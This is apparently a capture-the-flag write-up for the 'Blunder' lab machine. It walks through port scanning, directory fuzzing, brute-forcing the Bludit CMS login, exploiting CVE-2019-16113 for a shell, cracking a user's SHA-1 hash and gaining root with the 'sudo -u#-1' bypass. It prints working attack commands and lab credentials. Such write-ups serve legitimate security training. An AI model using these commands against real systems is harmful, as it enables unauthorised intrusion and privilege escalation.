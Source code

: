 ## Blunder  

### Lab Details 

- Difficulty: Easy
- Type:   Linux

#### Tasks

Q1: How many TCP ports are open on the remote host?
 - `nmap -sT -T4 -vv -A -p- -oA Blunder 10.10.10.191`

Q2: What is the name of the unusual file that dirbusting reveals?
 - scanned for target using /usr/share/wordlists/dirb/big.txt, unable to find any interesting files
 - used below extensions
 ``` 
   ffuf -u http://10.10.10.191/FUZZ -w /usr/share/wordlists/dirb/big.txt -e .ext1 .ext2 .ext3
   .php 
   .pdf 
   .txt 
   .config 
   .js 
   .md 
   .html
   .xml
   .cgi
   .ini
   .log
   .dat
   .cfg
   .yml 
``` 
 - scanned again - using /usr/sharewordlists/dirb/common.txt 
``` 
 [Status: 200, Size: 118, Words: 20, Lines: 5, Duration: 309ms]
    * FUZZ: todo.txt
```
 - `curl http://target_ip/todo.txt`
 ```
 -Update the CMS
 -Turn off FTP - DONE
 -Remove old users - DONE
 -Inform fergus that the new blog needs images - PENDING
 ```

Q3: What is the version of Bludit CMS that is used?
 - the version can be found using curl 
 - `curl http://target_ip/`
 ```
         <!-- Javascript -->
        <script src="http://10.10.10.191/bl-kernel/js/jquery.min.js?version=**3.9.2**"></script>
<script src="http://10.10.10.191/bl-kernel/js/bootstrap.bundle.min.js?version=**3.9.2**"></script>

        <!-- Load Plugins: Site Body End -->

</body>
</html>
 ```

Q4: What is the password for the user "fergus" on Bludit CMS?
- admin panel is located at http://target_ip/admin
- tool like hydra, medusa or burpsuite can be used to conduct login bruteforce
- below is example using medusa
```
medusa -h 10.10.10.191 -u fergus -P /usr/share/wordlists/rockyou.txt  -M http -t 2   
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [http] Host: 10.10.10.191 (1 of 1, 0 complete) User: fergus (1 of 1, 0 complete) Password: 12345 (1 of 14344391 complete)
ACCOUNT FOUND: [http] Host: 10.10.10.191 User: fergus Password: 12345 [SUCCESS]
ACCOUNT CHECK: [http] Host: 10.10.10.191 (1 of 1, 0 complete) User: fergus (1 of 1, 1 complete) Password: 123456 (2 of 14344391 complete)
ACCOUNT FOUND: [http] Host: 10.10.10.191 User: fergus Password: 123456 [SUCCESS]
```
- however when attempting login with found password, getting username or password error
- attempted with hydra getting the same error
- tried different wordlist, found both tools are giving false positives
- searched Bludit 3.9.2 github and found https://github.com/noraj/Bludit-auth-BF-bypass
    - used cewl to create a custom wordlist by scrapping target site
    - `cewl http://10.10.10.191 -m 5 -w custom_wordlist.txt` 
    - run the auth BF bypass script 
    - `ruby exploit.rb -r http://10.10.10.191/admin -u fergus -w custom_wordlist.txt`
    ```
    ...
    [+] Password found: RolandDeschain
    ```
Q5: What is the 2019 CVE ID for a remote code execution vulnerability in Bludit 3.9.2?
- search for Bludit 3.9.2 RCE POC
- CVE-2019-16113

Q6: What is the password of the user Hugo?
- after running the exploit from above, a shell can be gained with user www-data
- run linpea.sh, found a user.php file at a different version of blundit 
```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files 
...
/var/www/bludit-3.10.0a/bl-content/databases/users.php
...
```
- which contains hash of hugo
```
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}

````
- check hashtype `hashid "faca404fd5c0a31cf1897b823c695c85cffeb98d"`
```
Analyzing 'faca404fd5c0a31cf1897b823c695c85cffeb98d'
[+] SHA-1
... 
```
- use https://www.dcode.fr/sha1-hash to decrypt the hash 
- `password: Password120`

Q7: Submit the flag located in the hugo user's home directory.
- since the default shell from CVE-2019-16113 is not interactive, the shell needs to be upgrade to run `su`
- python is installed the target can use to upgrade 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
- su hugo -> cat /home/hugo/user.txt


Q8: What 2019 CVE ID is related to the currently installed Sudo version?
- according to the result from linpeas.sh 
- current sudo version is 1.8.25p1
```
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                               
Sudo version 1.8.25p1   
```
- which according to https://steflan-security.com/linux-privilege-escalation-vulnerable-sudo-version/
- we can use below to exploit and gain root shell
```
sudo -u#-1 /bin/bash
```
- `cat /root/root.txt


#### Lesson Learned
 - If one wordlist doesnt work try a couple different ones, like as file extensions 
